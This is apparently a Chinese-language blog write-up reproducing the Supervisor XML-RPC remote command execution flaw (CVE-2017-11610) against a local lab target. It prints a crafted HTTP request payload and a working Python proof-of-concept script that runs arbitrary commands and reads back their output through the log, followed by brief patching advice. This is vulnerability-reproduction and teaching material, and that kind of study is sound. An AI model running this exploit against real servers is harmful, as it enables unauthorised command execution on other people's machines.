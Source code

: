 **目录**

[Supervisor](#t0)

[漏洞复现](#t1)

[修复建议](#t2)

* * *

Supervisor
----------

Supervisor是使用Python 开发的进程管理程序，一般使用命令行进行管理，当然也能通过web接口图形化管理服务。在配置了web接口后，服务器会启动一个XML RPC服务器，端口为9001，默认配置接口是不需要密码访问的，管理员也可设置为密码访问。利用本漏洞，在获取该接口的访问权限后，远程攻击者可发送一段精心构造的请求，导致在服务器执行任意代码。

影响版本：Supervisor 3.1.2 <= Version <= 3.3.2

### **漏洞复现**

我在本地搭了一个Supervisord的页面，靶机ip：192.168.10.13 ，端口：9001

![](https://img-blog.csdnimg.cn/2019092010444438.png)

![](https://img-blog.csdnimg.cn/20190920172149396.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们使用 burpsuite 进行抓包，然后发送到repter，修改数据包如下：

```
POST /RPC2 HTTP/1.1      
Host: 192.168.10.13:9001      
Accept: */*      
Accept-Language: en      
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)      
Connection: close      
Content-Type: application/x-www-form-urlencoded      
Content-Length: 213       1
<?xml version="1.0"?>      1
<methodCall>      1
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>      1
<params>      1
<param>      1
<string>touch /tmp/test.txt </string>      1
</param>      1
</params>      1
</methodCall>
```


通过上面这个poc虽然能验证漏洞，但是执行的命令却没有回显，不能知道是否执行成功了。

于是乎我们可以将命令执行的结果写入 log 文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

利用代码poc.py如下：

```
import xmlrpc.client      
import sys       
target = sys.argv[1]      
command = sys.argv[2]      
with xmlrpc.client.ServerProxy(target) as proxy:      
    old = getattr(proxy, 'supervisor.readLog')(0,0)      
    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()      
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))      1
    result = getattr(proxy, 'supervisor.readLog')(0,0)      1
    print(result[len(old):])
```


使用方法：

```
python3  poc.py  "http://192.168.10.13:9001/RPC2"  "whoami"
```


由于漏洞环境在容器中是以 nobody 身份运行的，所以权限比较少，不能使用ifconfig等命令。

![](https://img-blog.csdnimg.cn/20190920173127105.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果目标机是root身份运行的话，则可以执行所有命令。

 ![](https://img-blog.csdnimg.cn/20190920104013660.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### **修复建议：**

*   升级Supervisord
*   端口访问控制
*   设置复杂RPC密码

参考文章：[Supervisord 远程命令执行漏洞（CVE-2017-11610）](https://yq.aliyun.com/articles/505597)

相关文章：[Supervisord远程命令执行漏洞（CVE-2017-11610）](https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html)

漏洞复现环境：[Supervisord 远程命令执行漏洞（CVE-2017-11610）](https://vulhub.org/#/environments/supervisor/CVE-2017-11610/)